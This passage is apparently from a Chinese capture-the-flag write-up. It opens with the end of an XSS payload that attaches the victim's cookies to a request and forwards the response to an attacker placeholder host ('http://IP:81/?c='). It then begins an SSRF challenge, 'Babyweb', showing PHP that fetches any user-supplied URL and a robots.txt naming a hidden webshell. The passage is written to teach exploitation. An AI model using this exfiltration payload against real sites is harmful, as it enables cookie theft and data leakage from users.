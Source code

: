 ```javascript
  {
  if (xmlhttp.readyState==4 && xmlhttp.status==200)
    {
        var myhttp;
        if (window.XMLHttpRequest)
         {// code for IE7+, Firefox, Chrome, Opera, Safari
           myhttp=new XMLHttpRequest();
          }
        else
         {// code for IE6, IE5
           myhttp=new ActiveXObject("Microsoft.XMLHTTP");
         }
         myhttp.open("GET", "http://IP:81/?c="+xmlhttp.responseText, true);
         myhttp.send()
    }
  }
xmlhttp.open("GET","http://65.52.174.189 sp",true);
xmlhttp.setRequestHeader("Cookie", document.cookie)
xmlhttp.send();
}
loadXMLDoc();
</script>
```

### Babyweb

这是一道 SSRF 题目。访问题目地址：[http://babyweb.thuctf2018.game.redbud.info:8016/](http://babyweb.thuctf2018.game.redbud.info:8016/)，显示出源代码：

```php
<?php
function curl($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    $re = curl_exec($ch);
    curl_close($ch);
    return $re;
}
if(!empty($_GET['url'])){
    $url = $_GET['url'];
    curl($url);
}else{
    highlight_file(__FILE__); 
}
```

先做目录路径爆破，得到 robots.txt 如下：

```
User-agent: *
Disallow: /webshe11111111.php
```
